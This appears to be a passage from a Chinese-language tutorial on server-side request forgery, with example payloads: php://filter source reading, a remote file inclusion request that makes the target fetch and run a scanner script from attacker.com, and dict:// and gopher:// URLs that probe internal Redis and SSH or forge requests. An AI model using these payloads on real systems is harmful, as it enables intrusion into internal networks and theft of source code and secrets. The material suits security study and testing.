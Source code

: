 ### 案例二：`file_get_contents` (Case 2: `file_get_contents`)

*   **场景**: 使用 `file_get_contents` 获取指定 URL 内容。此函数同样支持 `http://`, `https://`, `file://` 等协议（取决于 PHP 配置）。
*   **示例利用**: 假设目标脚本是 `ssrf_fgc.php`，它使用 `file_get_contents($_GET['file'])`。
    *   `http://vulnerable.com/ssrf_fgc.php?file=http://127.0.0.1/config.php` -> 尝试读取同服务器上的 `config.php` 文件（如果 Web 服务器配置允许通过 HTTP 访问）。
    *   `http://vulnerable.com/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=/var/www/html/db_conn.php` -> 结合 `php://filter` 读取 PHP 源码。

### 案例三：结合文件包含 (Case 3: Combining with File Inclusion)

*   **场景**: 目标存在文件包含漏洞（LFI/RFI），攻击者可以利用该漏洞包含一个托管在自己服务器上的脚本，该脚本执行 SSRF 扫描或攻击。
*   **步骤**:
    1.  **识别 LFI/RFI**: 发现 `http://vulnerable.com/rlfi.php?language=lang_en.php` 这样的参数。
    2.  **准备 SSRF 脚本**: 在攻击者服务器 (`http://attacker.com/`) 上放置一个 PHP 脚本 (`ssrf_scanner.php`)，该脚本接收 POST 参数 `target_ip`，并使用 `curl` 或 `fsockopen` 探测该 IP 的端口。
    3.  **触发包含与扫描**: 发送请求到 LFI/RFI 漏洞点，`language` 参数指向攻击者的脚本，并通过 POST 数据传递内部目标 IP。
        ```http
        POST /rlfi.php?language=http://attacker.com/ssrf_scanner.php&action=go HTTP/1.1
        Host: vulnerable.com
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 18

        target_ip=192.168.1.100
        ```
    4.  **获取结果**: `vulnerable.com` 服务器会下载并执行 `ssrf_scanner.php`，该脚本扫描内网的 `192.168.1.100`，并将结果输出到响应中。

## 利用其他协议 (Exploiting Other Protocols)

除了 `http/https` 和 `file`，其他协议在 SSRF 中也很有用：

*   **`dict://`**:
    *   **用途**: 用于访问字典服务器协议，常用来探测端口服务和版本信息。
    *   **示例**: `http://vulnerable.com/ssrf.php?url=dict://192.168.1.1:6379/info` -> 可能泄露内网 Redis 服务器的信息。 `dict://127.0.0.1:22/info` 可探测 SSH 版本。

*   **`gopher://`**:
    *   **用途**: 非常灵活，可以发送 **任意 TCP 流量** (包括非 HTTP 协议)。可以用来构造 POST 请求、攻击 Redis/Memcached/MySQL 等服务、发送 SMTP 邮件等。被称为 SSRF 中的 "万金油"。
    *   **格式**: `gopher://<host>:<port>/<gopher-path>`，其中 `<gopher-path>` 代表原始 TCP 数据流。
    *   **构造注意**:
        *   `<gopher-path>` 的第一个字符通常会被忽略，可以填充一个无用字符。
        *   回车换行符 (`\r\n`) 在 URL 编码时需要特别处理，通常需要进行 **两次 URL 编码** (CR=`%0d`, LF=`%0a` -> `%250d%250a`)。
    *   **示例 (构造 POST 请求)**:
        `http://vulnerable.com/ssrf.php?url=gopher://192.168.0.105:80/_POST%20/submit.php%20HTTP/1.1%0d%0aHost:%20192.168.0.105%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%207%0d%0a%0d%0aabc%3D123`
        (注意: 上述示例中的回车换行未二次编码，实际使用时需要二次编码)
    *   **更多 Gopher 攻击面**: 参考 [Gopher Attack Surfaces](https://blog.chaitin.cn/gopher-attack-surfaces/)。

*   **`ftp://`, `sftp://`, `tftp://`, `ldap://`**: 根据目标服务器支持情况和漏洞点实现，也可能被用于探测、数据传输或攻击特定服务。